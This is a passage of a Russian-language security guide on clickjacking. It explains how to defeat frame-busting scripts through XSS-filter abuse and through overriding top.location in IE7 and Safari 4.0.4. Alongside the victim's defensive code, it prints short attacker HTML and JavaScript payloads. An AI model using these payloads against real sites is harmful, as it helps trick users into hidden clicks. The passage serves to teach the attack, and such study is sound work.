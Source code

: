 **Код прерывания фреймов жертвы:**

```html
<script>
    if(top != self) {
        top.location = self.location;
    }
</script>
```

**Злоумышленник:**

```html
<iframe src="http://www.victim.com/?v=<script>if''>
```

Фильтр XSS сопоставит этот параметр `<script>if` с началом скрипта прерывания фрейма на стороне жертвы и, соответственно, отключит все встроенные скрипты на странице жертвы, включая скрипт прерывания фрейма. Фильтр XSSAuditor, доступный для Google Chrome, позволяет провести такую же эксплуатацию.

### одмена top.location

Некоторые современные браузеры рассматривают переменную location как специальный неизменяемый атрибут во всех контекстах. Однако это не относится к IE7 и Safari 4.0.4, где переменная location может быть переопределена.

**IE7**: Как только страница с фреймами переопределяет location, любой код прерывания фреймов в подфрейме, который пытается прочитать `top.location`, вызовет нарушение безопасности, пытаясь прочитать локальную переменную в другом домене. Аналогично, любая попытка навигации путем присвоения значения `top.location` не удастся.

**Код прерывания фреймов жертвы:**

```javascript
if(top.location != self.location) {
    top.location = self.location;
}
```

**Злоумышленник:**

```html
<script>var location = "clobbered";</script>
<iframe src="http://www.victim.com"></iframe>
```

**Safari 4.0.4:**

Мы наблюдали, что хотя location остается неизменяемым в большинстве случаев, когда пользовательский сеттер location определяется с помощью `defineSetter` (через окно), объект location становится неопределенным.

Страница с фреймами просто делает:

```html
<script>
    window.defineSetter("location", function(){});
</script>
```
